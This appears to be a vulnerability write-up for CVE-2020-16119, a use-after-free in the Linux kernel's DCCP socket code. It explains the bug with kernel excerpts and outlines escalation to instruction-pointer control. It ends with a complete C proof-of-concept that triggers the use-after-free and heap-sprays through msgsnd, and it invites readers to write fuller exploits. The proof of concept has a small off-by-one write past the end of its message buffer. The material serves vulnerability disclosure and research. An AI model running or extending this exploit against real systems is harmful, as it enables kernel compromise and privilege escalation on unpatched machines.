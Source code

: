 # CVE-2020-16119

## Background
Datagram Congestion Control Protocol (DCCP) is an unreliable, connection
oriented protocol designed to solve issues present in UDP and TCP, particularly
for real-time and multimedia (streaming) traffic.
It divides into a base protocol and pluggable congestion control
modules called CCIDs. Like pluggable TCP congestion control, at least one CCID
needs to be enabled in order for the protocol to function properly. In the Linux
implementation, this is the TCP-like CCID2. Additional CCIDs, such as
the TCP-friendly CCID3, are optional.

In recent months I have researched and reviewed various parts of the Linux kernel networking subsystem. In this time, I have come across a use-after-free vulnerability in the DCCP component of the latest kernel release (5.8.10).

## How Does the UAF Happen?
First, let's understand how the UAF occurrs in the first place. Here's a breakdown:

We create a socket with type ```SOCK_DCCP``` and protocol ```IPPROTO_IP```:
```c
socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);
```
Then, we call ```listen()``` on the resulting socket. The socket object is now in the DCCP_LISTEN state.
Behind the scenes, when the socket is put in said state, ```dccp_create_openreq_child()``` is called:

```c
struct sock *dccp_create_openreq_child(struct sock *sk,
				       const struct request_sock *req,
				       const struct sk_buff *skb)
{
	struct sock *newsk = inet_csk_clone_lock(sk, req, GFP_ATOMIC);
	if (newsk != NULL) {
		struct dccp_request_sock *dreq = dccp_rsk(req);
		struct inet_connection_sock *newicsk = inet_csk(newsk);
		struct dccp_sock *newdp = dccp_sk(newsk);
		newdp->dccps_role	    = DCCP_ROLE_SERVER;
		newdp->dccps_hc_rx_ackvec   = NULL;
		newdp->dccps_service_list   = NULL;
    ...
}
```

We can see in ```dccp_create_openreq_child``` that the initial socket object is being cloned[1].
Note that when ```inet_csk_clone_lock()``` is called, dccps_hc_rx_ccid and dccps_hc_tx_ccid are copied.

If one of the socket objects is disconnected or closed, it
frees dccps_hc_rx_ccid/dccps_hc_tx_ccid and provides us a dangling pointer in the other socket object.

To make one of our socket objects disconnect, we can call ```connect()``` on it with AF_UNSPEC, and it will "free" our socket via ```dccp_disconnect()```.
```dccp_disconnect()``` sets the socket state to DCCP_CLOSED, and *doesn't* free and assign NULL to
dccps_hc_rx_ccid and dccps_hc_tx_ccid.

Then, we need to call ```connect()``` on a new socket with the same type and protocol as the first one.
After that, we call ```listen()``` on our new socket so our new socket object will get cloned with ```dccp_create_openreq_child()```.
```dccp_create_openreq_child()``` will create a new socket object thats holds the dangling pointers of dccps_hc_rx_ccid/dccps_hc_tx_ccid.
This leads to the old socket and the new socket holding the same pointers to dccps_hc_rx_ccid/dccps_hc_tx_ccid.

## Escalation to RCE
If we want to get arbitrary code execution with our dangling pointer (the freed object that we are using after we free ;D ), we have to dereference the dangling pointer 
with close/getsockopt. For example,

```ccid_hc_tx_delete``` is the function that is responsible for freeing dccps_hc_rx_ccid/dccps_hc_tx_ccid:

```c
void ccid_hc_tx_delete(struct ccid *ccid, struct sock *sk)
{
	if (ccid != NULL) {
		if (ccid->ccid_ops->ccid_hc_tx_exit != NULL)
			ccid->ccid_ops->ccid_hc_tx_exit(sk);      
		kmem_cache_free(ccid->ccid_ops->ccid_hc_tx_slab, ccid);
	}
}
```
We can see that this line: ```ccid->ccid_ops->ccid_hc_tx_exit(sk);``` is calling a function pointer.

When this function is called for the first time (when the ```connect()``` with AF_UNSPEC is called), it is harmless and simply does cleanup.

However, when it is called the second time (when we actually ```close()``` and control the dangling pointer), it can call an arbitrary address specified by us.

In order to exploit this and get IP control, we have to heap-spray the kernel.
I used the msgsnd syscall to heap-spray the kernel. If you like, you can use other methods if you like.

### **Challenge**: 
write your own exploits for this UAF, in the same method i did or with another heap-spray technique. If you do, please share them with me! (@ManorHadar)

POC:
```c

/*
CVE-2020-16119
POC by @ManorHadar
(Feel free to share your exploits for this CVE with me!)
*/

#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <netinet/in.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <sys/ipc.h>
#include <sys/shm.h>

int fd1,fd2;
struct sockaddr_in6 sk1,sk2;
#define BUFF_SIZE 64

void heap_spray();

int trigger_uaf()
{
  struct sockaddr_in6 csk1,csk2;
  struct sockaddr_in6 csk3;
  struct sockaddr_in6 csk4;
  
  fd1 = socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);

  memset(&sk1,0,sizeof(sk1));
  sk1.sin6_family = AF_INET6;
  sk1.sin6_addr = in6addr_loopback;
  sk1.sin6_port = 0x214e;
  bind(fd1,(struct sockaddr*)&sk1,sizeof(sk1));

  listen(fd1,0x1); //DCCP_LISTEN

  fd2 = socket(AF_INET6, SOCK_DCCP, IPPROTO_IP);

  memset(&csk1,0,sizeof(csk1));
  csk1.sin6_family = AF_INET6;
  csk1.sin6_addr = in6addr_loopback;
  csk1.sin6_port = 0x214e;
  csk1.sin6_flowinfo = 0;
  connect(fd2,(struct sockaddr*)&csk1,sizeof(csk1));

  memset(&csk2,0,sizeof(csk2));
  // calling connect with AF_UNSPEC (free)
  connect(fd1,(struct sockaddr*)&csk2,sizeof(csk2));
  memset(&sk2,0,sizeof(sk2));

  heap_spray();

  sk2.sin6_family = AF_INET6;
  sk2.sin6_addr = in6addr_loopback;
  sk2.sin6_port = htons(0x2000);
  sk2.sin6_flowinfo = 0x2;
  sk2.sin6_scope_id = 6;
  bind(fd2,(struct sockaddr*)&sk2,sizeof(sk2));

  memset(&csk3,0,sizeof(csk3));
  connect(fd2,(struct sockaddr*)&csk3,sizeof(csk3));

  listen(fd2,0xb1);

  memset(&csk4,0,sizeof(csk4));
  csk4.sin6_family = AF_INET6;
  csk4.sin6_port = htons(0x2000);
  memset(&csk4.sin6_addr,0,sizeof(struct in6_addr));
  csk4.sin6_flowinfo = 1;
  csk4.sin6_scope_id = 0x32f1;
  connect(fd1,(struct sockaddr*)&csk4,sizeof(csk4));
  socket(AF_INET,SOCK_STREAM,0);
  close(fd2);
  return fd2;
}

void heap_spray()
{
   printf("Spraying the Heap");
   struct {
     long mtype;
     char mtext[BUFF_SIZE];
   }msg;
   memset(msg.mtext, 0x41, BUFF_SIZE-1);
   msg.mtext[BUFF_SIZE] = 0;
   int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
   msg.mtype = 1; // mtype must be > 0 
   for(int i = 0; i < 240; i++)
        msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
}

int main(void)
{
  printf("Triggering the Use-After-Free");
  trigger_uaf();
  return 0;
}
```
